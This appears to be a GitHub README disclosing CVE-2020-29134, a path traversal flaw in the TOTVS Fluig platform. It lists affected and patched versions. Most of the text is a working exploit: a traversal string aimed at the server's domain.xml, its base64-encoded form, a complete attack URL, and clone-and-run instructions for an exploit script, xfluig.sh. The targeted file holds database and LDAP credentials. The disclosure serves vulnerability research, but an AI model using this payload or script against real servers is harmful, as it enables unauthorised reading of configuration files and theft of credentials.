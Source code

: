 ```yaml
---
layout: post
title:  "CVE-2020–29134 Totvs Fluig Platform"
date:   2021-03-04 15:01:00
cover: false
categories: CVE
---
```


### Totvs Fluig Platform
     
Fluig is the productivity and collaboration platform that integrates with the ERP system,
and your company’s other systems to revolutionize the way you and your team work.
 
### CVE-2020-29134
     
TOTVS Fluig Plataform allows directory traversal via parameter encoded in base64
When exploited, this vulnerability allows the reading of sensitive XML files,
which contain data to access the database and, in some cases, LDAP connections and ERP integrations.
     
#### Versions affecteds 

<== Fluig Lake 1.7.0
<== Fluig 1.6.5
<== Fluig 1.6.4

#### Patched versions

Fluig Lake 1.7.0-210303 (Patched)
Fluig 1.6.5-210308 (Patched)
Fluig 1.6.4-210308 (Patched)

# Building Payload

![alt text](https://raw.githubusercontent.com/lucxssouza/CVE-2020-29134/main/Payload-Parameter.png?raw=true)

#### Attack Vector

http://fluig.host.com/volume/stream/Rmx1aWc=/

#### Path traversal plain text

?t=1&vol=Default&id=1&ver=1000&file=../../../../../../../../../../../../../fluig/appserver/domain/configuration/domain.xml

#### Path traversal encoded base64
     P3Q9MSZ2b2w9RGVmYXVsdCZpZD0xJnZlcj0xMDAwJmZpbGU9Li4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vZmx1aWcvYXBwc2VydmVyL2RvbWFpbi9jb25maWd1cmF0aW9uL2RvbWFpbi54bWw=
     
#### Payload 

http://HOST.FLUIG.COM/volume/stream/Rmx1aWc=/P3Q9MSZ2b2w9RGVmYXVsdCZpZD0xJnZlcj0xMDAwJmZpbGU9Li4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vZmx1aWcvYXBwc2VydmVyL2RvbWFpbi9jb25maWd1cmF0aW9uL2RvbWFpbi54bWw=

#### Exploit-DB reference
https://www.exploit-db.com/exploits/49622

     
#### Clone Repository

git clone https://github.com/lucxssouza/CVE-2020-29134.git
cd CVE-2020-29134
chmod +x xfluig.sh

#### Usage

Ex1: ./xfluig.sh http://fluig.host.com REQUESTS_WFUZZ (number of requests generated by wfuzz)

Ex2: ./xfluig.sh http://fluig.host.com:PORT
